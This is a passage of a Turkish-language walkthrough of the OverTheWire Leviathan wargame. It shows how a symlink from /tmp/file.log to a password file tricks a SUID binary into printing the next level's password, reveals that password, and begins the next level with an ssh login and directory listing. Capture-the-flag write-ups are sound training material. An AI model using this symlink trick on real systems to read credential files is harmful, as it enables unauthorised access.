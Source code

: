 - çalıştıralım:

    ```bash
    leviathan5@gibson:~$ ./leviathan5 
    Cannot find /tmp/file.log
    leviathan5@gibson:~$ 
    ```

- ltrace ile çalıştıralım:

    ```bash
    leviathan5@gibson:~$ ltrace ./leviathan5 
    __libc_start_main(0x804910d, 1, 0xffffd494, 0 <unfinished ...>
    fopen("/tmp/file.log", "r")                                 = 0
    puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
    )                           = 26
    exit(-1 <no return ...>
    +++ exited (status 255) +++
    leviathan5@gibson:~$ 
    ```

- bu program büyük ihtimalle `/tmp/file.log` dosyasını açıp yazdırmaya yarıyor. ve bu dosya dizinde yok.

- eğer bu dosyayı `/etc/leviathan_pass/leviathan6` dosyasına bir sembolik link olarak oluşturursak belki okuyabiliriz:

    ```bash
    leviathan5@gibson:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
    leviathan5@gibson:~$ 
    ```

- programı tekrar çalıştıralım:

    ```bash
    leviathan5@gibson:~$ ./leviathan5 
    szo7HDB88w
    leviathan5@gibson:~$ 
    ```

- yeni parola: `szo7HDB88w`

### Leviathan Level 6 -> 7

- ssh ile bağlanalım: `ssh leviathan6@leviathan.labs.overthewire.org -p 2223`

- önceki seviyede bulduğumuz parolayı girelim: `szo7HDB88w`

- `ls -la` ile listeleyince adı `leviathan6` olan bir SUID dosya görüyoruz:

    ```bash
    leviathan6@gibson:~$ ls -la
    total 36
    drwxr-xr-x  2 root       root        4096 Jun 11 21:30 .
    drwxr-xr-x 83 root       root        4096 Jun 11 21:32 ..
    -rw-r--r--  1 root       root         220 Mar 31 08:41 .bash_logout
    -rw-r--r--  1 root       root        3771 Mar 31 08:41 .bashrc
    -r-sr-x---  1 leviathan7 leviathan6 15032 Jun 11 21:30 leviathan6
    -rw-r--r--  1 root       root         807 Mar 31 08:41 .profile
    leviathan6@gibson:~$ 
    ```
